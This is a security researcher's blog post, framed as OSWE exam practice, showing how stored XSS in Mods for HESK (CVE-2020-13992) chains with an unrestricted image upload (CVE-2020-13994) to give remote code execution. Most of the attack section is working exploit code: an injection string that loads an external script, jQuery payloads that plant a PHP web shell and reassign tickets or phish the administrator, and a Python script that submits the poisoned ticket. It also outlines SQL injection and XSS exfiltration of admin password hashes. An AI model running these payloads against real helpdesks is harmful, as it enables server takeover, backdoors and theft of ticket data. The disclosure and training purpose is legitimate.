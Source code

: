From unauthenticated stored XSS to RCE
Thursday, June 25th , 2020

##
#
https://loca1gh0s7.github.io/MFH-from-XSS-to-RCE-loca1gh0st-exercise/
#
##

Background:
The discovered vulnerabilities resulted in three different CVE's for Mods for HESK (MFH) version 2019.1.0 and down to version 3.1.0 (June 28 2017)

CVE-2020-13992 :: Multiple stored XSS issues allows remote unauthenticated attacker to abuse a helpdesk user's logged in session
CVE-2020-13993 :: Multiple blind SQL injection issues allows remote unauthenticated attackers to retrieve information from the database via ticket submission
CVE-2020-13994 :: A privileged user can achieve code execution on the server because of improper access control of uploaded resources. This might be exploitable in conjunction with CVE-2020-13992
CVE-2020-13992 and CVE-2020-13994 can be chained toghether as you will see in this post.

The path to RCE:
I am sharing this believing it could serve as some extra "material" for the Advanced Web Attacks and Exploitation (AWAE) course and Offensive Security Web Expert (OSWE) exam. I found a lot of similarities with the applications in the AWAE course and therefore believe it would be a nice addition to exam preparation. If you want the most out of this, I suggest you download and install Mods for HESK (MFH) 2019.1.0 yourself, and postpone the reading of this blogpost. Spoiler alert: I go through XSS (CVE-2020-13992) to RCE (CVE-2020-13994) in detail, but I leave the SQL injection (CVE-2020-13993) as an exercise

At one point in time (May/June 2020) I looked into an installation of PHP helpdesk software, HESK 2.8.6 (open source) with "Mods for HESK 2019.1.0" (latest version at that time) installed. Open source is great for security researchers and also hackers. So I downloaded the latest version (2.8.6) of HESK2 and started code review on parts that accepted user-input. After a couple of hours, this did not reveal any vulnerabilities (at least for my eyes). I get the feeling "there is nothing here". I thought to myself that I'm not going to find anything in the mod software, completely forgetting how powerful mods can be in the open source world. They can easily modify core parts of the software.

I Downloaded Mods for HESK 2019.1.0 and went for the install directory. As with the HESK software this also refuses to run unless you remove the install directory after installation, which is great practice in my opinion. I logged in to the admin area to look around - taking the "tour". This is always a good way to start - get familiar with the app you are testing or code-reviewing.


This is what it looks like when opening up hesk with MFH installed. Well except for the "hello@loco" in the Email field (yes, I am to lazy to edit the screenshot again, sorry). While getting to know the application I logged in with the admin user created at install time.


After logging in, I quickly found settings page.

 
In my exploration of the logged-in portions of the app I noticed that the possibility of uploading attachments is enabled by default. In settings I discovered that allowed file extensions for upload was configurable. That is interesting. I also discovered a "show useragent" option within the Helpdesk section (not enabled by default). Hmmm. Further there is a UI colors section part of MFH addon - with image upload support! I wanted a way in so I kept looking at user input, especially where a anonymous user could submit a ticket with file upload. Burp was already enabled and willing, so I logged out of the admin area and submitted a ticket: (disregarding the file upload for now)

 
I notice 4 fields not present in original HESK. That is interesting. Figuiring screen_resolution_height and screen_resolution_width would not get me anywhere as they are pure integers I focus on latitude and longitude. Although I am somewhat familiar with the HESK software source at this point, I find it quicker and more exciting to test XSS payload through Burp and check the page source where I expect these values to be displayed / used.

<script>alert('latitude')</script>

<script>alert('longitude')</script>


So that is what I do, I inject both longitude and latitude with the "standard basic" XSS payload. I ship it and response says: Your ticket has been successfully submitted! Ticket ID: Q95-JAY-H8LZ. So far so good, now I will log into the helpdesk and view the ticket.

 
It always tingles in my stomach when I see this. Well, longitude is injectable, but why didn't the latitude payload fire? Inspecting the page source it is revealed that we actually land directly into JavaScript and there is no need for script tags. The script tags actually broke the latitude injection and the rest of JavaScript after longitude. This is also what devtools and console is telling us:

 
Let us fix it by chaning payloads to:

1;alert('stored XSS are the best!')

1;alert('but how much space is available?')


I rip out all cookies (to avoid the $_SESSION['already_submitted'] to ever become set) and ship it! I get another ticket Q2U-JDN-YXDU! Clicking the ticket in the admin panel...

 
Perfect! It blends in beautifully.

Yes yes, I know what you are thinking, can we steal the session cookie? Nope, not in the latest version of MFH at least. So what CAN we do?


In my previous research into HESK, I noticed upload attachment functionality. As an admin you can change allowed extensions for attachment upload. Music in hacker ears! Craft XSS to change settings to allow for php file upload, submit ticket with attachment and use XSS in the ticket to determine the filename - then go for it and we have RCE! Always test your train of thought manually before typing up the script to attack. I did and I am glad. Cause there was something very nice lurking in the source:


No PHP extension for you! Well, should the webserver execute php2, php6 or php7 you are in luck - but that is a conditional we cannot base an attack on. Remember the upload picture functionality in MFH UI addon? I quickly go to the bottom of the settings page and upload a file for Login Box Header image. I selected a cute little PHP file:

<?php echo "Stored XSS is sexy but I really <3 RCE"; ?>

Again, I could read the source to determined if this vector was possible, but I think is so much quicker just using the applications functions to test the first step in this direction, if not successful we would dig into source code.

  
As you can see there is nothing stopping me from uploading a PHP file here. Navigating to the login screen, I find the picture, or at least its placeholder. The 'src' attribute reveals the 'backdoor' being put into /cache folder. Opening it in another tabs gives us what every hacker wants, code execution on the webserver.


Now we know what we want, but how can we achieve it, can we bring the entire JavaScript payload into the database? We run into the hesk databse: mysql -u root and use hesk; then describe hesk_tickets;. This reveals that we have 100 characters to play with in each of longitude and latitude. Well, we could probably get away with that (Psst! User-agent header is vulnerable to XSS too - and its type in DB is TEXT!), but I don't have time for micro-optimizing code although a really enjoy it. We could also base64 code some payload data in either of the visible ticket fields, but that wouldn't be very stealthy...


We will cross the CSP bypass (for instance by leveraging attachments :D) bridge some other day, for now I will settle with loading an external script. There is a thousand ways to do it, but I went for (localhost works here because I am attacking the webapp installed locally):

1;</script><script src='http://localhost/js/evil.js'/><script>//

Not fan of red lines with text in console window of devtools, I add the comments on the end to comment out the semi-colon not under our control.

Now jQuery is already present, that will make some things easier (at least for me). Crafting the payload within an IIFE (Immediately Invoked Function Expression) waiting for the DOM to load:
```
(function(){
  $(document).ready(function () {
    $.get( "/admin/admin_settings.php", function(htmldata) {
      var f = $('form[name="form1"]', $(htmldata));
      // We will try to upload RCE payload
      var fd = new FormData(f[0]);
      fd.set('login-box-header', 'image');
      var blob = new Blob(["<?php echo shell_exec('id'); ?>"], {
        type: 'application/x-php'
      });
      fd.set('login-box-header-image', blob, 'whateverdontmatter.php'); /* Check it out: https://www.youtube.com/watch?v=w8QH93jWZbk */
      $.ajax({
        url: $(f).attr('action'),
        data: fd,
        processData: false,
        contentType: false,
        type: 'POST',
        success: function(data){
          // This is incorrect, page returns 200 either way and I am also being lazy with the printout of the backdoor, but this is just a PoC :D
          console.log("Seems we were successful, check the door: http://localhost/cache/lbh_login-box-header-image.php");
        }
      });
      // Remember to reset login-box-header to helpdesk-title and save settings again
      var reset = new FormData(f[0]);
      $.ajax({
        url: $(f).attr('action'),
        data: reset,
        processData: false,
        contentType: false,
        type: 'POST',
        success: function(data){
          console.log("Cleanup done...");
        }
      });
    }
  });
})()
```

I noticed that the PHP file is not deleted if I change the setting back. Stealth is offered, as you can see in the script above, we take it. There we have it, a stealthy gh0st exploit resulting in RCE on target webserver! Well, this makes the assumption that this evil ticket lands with the admin user of the helpdesk system. We all know whose mother assumption really is. So let's improve on this.

Imagine the ticket is automatically assigned to a limited user. If that is the case, we can reassign it to an admin user :D. Doing some more research reveals that the send message to other users' page actually seems to list all registered users of the HESK admin area.


That's helpful, what's more - the userid is exposed as well. Unless someone has messed greatly with the installation of HESK, userid 1 will always be an admin user. It cannot be deleted nor demoted.

Further XSS seems impossible in these fields, but looking at the mail.php $_SESSION['mail']['message'] = hesk_makeURL($_SESSION['mail']['message']); tells us that url's will be Interpreted as links. Armed with this knowledge, we make our payload request the admin/mail.php page to get the lowest number user in the list (except 0) and either reassign the ticket to admin user if we have sufficient privileges to do so, or otherwise phish the admin user with an intriguing message linking to our poisoned ticket :D.
```
(function(){
  $(document).ready(function () {
    var token = 0;
    var ticket = "";
    var sendIt = function(url, postdata) { 
      $.post(url,postdata);
      return "hey";
    };
    var parseAdmin = function(htmldata) {
      var f = $('form[name="form2"]', $(htmldata));
        var u = $(f[0][1]);
      var a = [];
      $(u[0]).find('option').each(function(i,v) {
        if(v.value != 0) { a[v.value] = v.text }  
      });
      if (a[1] != null) {
        return 1; 
      } else {
        // We assume that next user that was created after admin has privs...
        for (uu in a) {
          if(a.hasOwnProperty(uu)) {
            return uu;
          }
        } 
      }
    };
    var getMailInfo = function() {
      return $.when($.get('/admin/mail.php'));
    };
    var reAssignPayload = function(reAssignTo) {
      data = {
        "owner": reAssignTo,
        "track": ticket,
        "token": token
      };
      sendIt('/admin/assign_owner.php', data);
    }
    var sendMessage = function(token, recipient) {
      var data = {
        "to": recipient, 
        "subject":"I need your input on this ticket",
        "message":"Please read the log for ticket: " + window.location.href + "\n\nWhat do you think?\nThanks.",
        "signature":1,
        "token":token,
        "a":"send"};
      sendIt("/admin/mail.php", data)
    };
    var passThePayload = function() {   
      getMailInfo().then(function(data) {
        console.log("Passing payload to someone important...");
        var adminOrnextBestThing = parseAdmin(data);
        if ($('#changeOwnerForm').html()) {
          // We can assign someone, go for it
          console.log("We are allowed to reassign, attempting reassign to admin...");
          reAssignPayload(adminOrnextBestThing);
        }
        else {
          // Best we can do is send a phishing message with link to payload
          console.log("Reassign denied, we'll go phishing admin with message...");
          sendMessage(token, adminOrnextBestThing);
        }
      });
    };
    ticket = $('#changePriorityForm input[name="track"]').val();
    token = $('#changePriorityForm input[name="token"]').val();
    // testing if we can reach settings
    $.get( "/admin/admin_settings.php", function(htmldata) {
    var f = $('form[name="form1"]', $(htmldata));
    if(!f[0]) {
      passThePayload();
    }
    else {
      // We get the page, can we submit settings??
      $.ajax({
        url: $(f).attr('action'),
        type: 'POST',
        data : $(f).serialize(),
        success: function(response){
        var error = $('div.alert.alert-danger', $(response));
        if(error[0]) {
          // There are errors
          console.log('There are errors...');
          $(error).each(function(i,v) {
            var er = $(v).find('a')[0];
            if($(er).attr('href') == "index.php") {
              console.log('No access to save settings...');
              passThePayload();
            }
          });
        }
        else {
          console.log("Seems we have access to save settings, building backdoor...");
          // We will try to upload RCE payload
          var fd = new FormData(f[0]);
          fd.set('login-box-header', 'image');
          var blob = new Blob(["<?php echo shell_exec('id'); ?>"], {
            type: 'application/x-php'
          });
          fd.set('login-box-header-image', blob, 'whateverSTILLdontmatter.php'); /* Check it out: https://www.youtube.com/watch?v=w8QH93jWZbk */
          $.ajax({
            url: $(f).attr('action'),
            data: fd,
            processData: false,
            contentType: false,
            type: 'POST',
            success: function(data){
              console.log("Seems we were successful, check the door: http://localhost/cache/lbh_login-box-header-image.php");
            }
          });
          // Remember to reset login-box-header to helpdesk-title and save settings again
          var reset = new FormData(f[0]);
          $.ajax({
            url: $(f).attr('action'),
            data: reset,
            processData: false,
            contentType: false,
            type: 'POST',
            success: function(data){
              console.log("Cleanup done...");
            }
          });
        }
      }});
    }
  });
}); 
})()
```

Now that's a lot better (except for my coding skills :D). Let's compliment this payload with a python script exploiting the XSS vulnerability:

```
#!/usr/bin/python
import sys
import requests

def submitEvilTicket(target, payloadlocation):
  proxies = {'http': 'http://127.0.0.1:8080'} # Debug
  target = "%s/submit_ticket.php?submit=1" % target
  data = {
    'name': 'loca1gh0st',
    'email': 'loca1gh0st@localhost',
    'priority': '3',
    'subject': 'You have a gh0st in the shell very soon',
    'message': 'Duh-duh, duh duh. Who you gonna call? (loca1)gh0st busters!',
    'latitude': '1;</script><script src="%s"></script><script>//' % payloadlocation, # Stored XSS up to 100 chars
    'longitude': '1', # Stored XSS here to up to 100 chars
    'screen_resolution_height': 123, # SQL injection here, not used in this exploit
    'screen_resolution_width': 123, # SQL injection here, not used in this exploit
    'token': 'whatever',
    'category': '1',
    'hx': '3',
    'hy': ''
  }

  r = requests.post(target, data=data, proxies=proxies)

  res = r.text
  if "ticket.php?track=" in res:
    print "Ticket submitted, now a user would need to view the ticket:\n"
    # If you like you could bs, grep or regex for the Ticket ID, but that's on you
    return True
  return False

def main():
  if len(sys.argv) != 3:
    print "(+) usage: %s <targetandpath> <payloadtarget>" % sys.argv[0]
    print "(+) eg: %s https://192.168.121.103/hesk http://10.10.10.123/gh0st-inject.js" % sys.argv[0]
    sys.argv[0]
    sys.exit(-1)

  target = sys.argv[1];
  payload = sys.argv[2];

  if submitEvilTicket(target, payload):
    print "(+) We successfully sent a gh0st in the envelope"
    print "(+) if target is between version -2019.1.0- and -June 28 2017 Version 3.1.0-"
    print "(+) you should expect great success"

  else:
    print "(-) That failed, check your target path and if they have enabled captcha or equivalent!"
    print "(-) If there is captcha involved do this step through you favorite proxy which is Burp!"
if __name__ == "__main__":
  main()

```
So what does it finally look like?

We run the script: python ticketXXs.py http://localhost/ http://localhost/js/evil.js. This is an example with a very limited user that cannot even reassign tickets:


Limited user opens his newly assigned ticket, javascript executes - cannot assign admin, so phish options is automatically selected:


Admin user has a new message:


Admin user clicks the link to the infected ticket:


Admin has privileges to upload UI image, pwned:


Remote Code Execution:


Note that this will not work if the target has some kind of captcha enabled (not enabled by default). But that is just one request for you to send via Burp if need be. At last, remember the screen_resolution_height and screen_resolution_width in submit_ticket.php? Well, they are actually both vulnerable to SQL injection. We did not need this vulnerability to bypass authentication here. This attack should work on Mods for HESK versions between -2019.1.0- and -June 28 2017 Version 3.1.0- as these are vulnerable to SQL injection, XSS and RCE.

What if RCE is out of the picture? For example in versions below 3.1.0 there are no UI image upload functionality. Well, we can still bypass authentication with session riding. But what if we need to log in as admin user? Here the SQL injection vector becomes interesting. I leave it as an exercise for AWAE students (and anyone else of course) to leverage SQL injection to add admin password hash to a ticket and XSS to exfiltrate the data to build a autologin token for the admin user. A couple of hints: (DM me if you need a push in the right direction)

Remember that "show useragent" is not enabled by default
Conditional-based rest for the wicked (SLEEP(X) will work, but that is going to be a whole lot of tickets - poor helpdesk - and poor you if captcha is enabled. Still a valid option if you have no XSS)
SQL injection needs to result in an INT type, signed.
You will need to submit at least 6 (please correct me if I am wrong) evil tickets for username and password hash and collect at least one of the ticket ID's
SQL is very very blind. You should leverage XSS to exfiltrate the data
In closing I would like to say that these vulnerabilities are serious as an attacker can exfiltrate all data on every ticket ever submitted and further reply to these tickets with malicious payloads in form of attachments. The vulnerabilities were reported quickly to the software author which in turn responded promptly and professionally. I would strongly recommend users of this software to update to the latest version of MFH - Mods for HESK and if possible, make the transition into the original HESK as the MFH is no longer maintained.

Good luck if OSWE exam preparation brought you here and happy hunting!

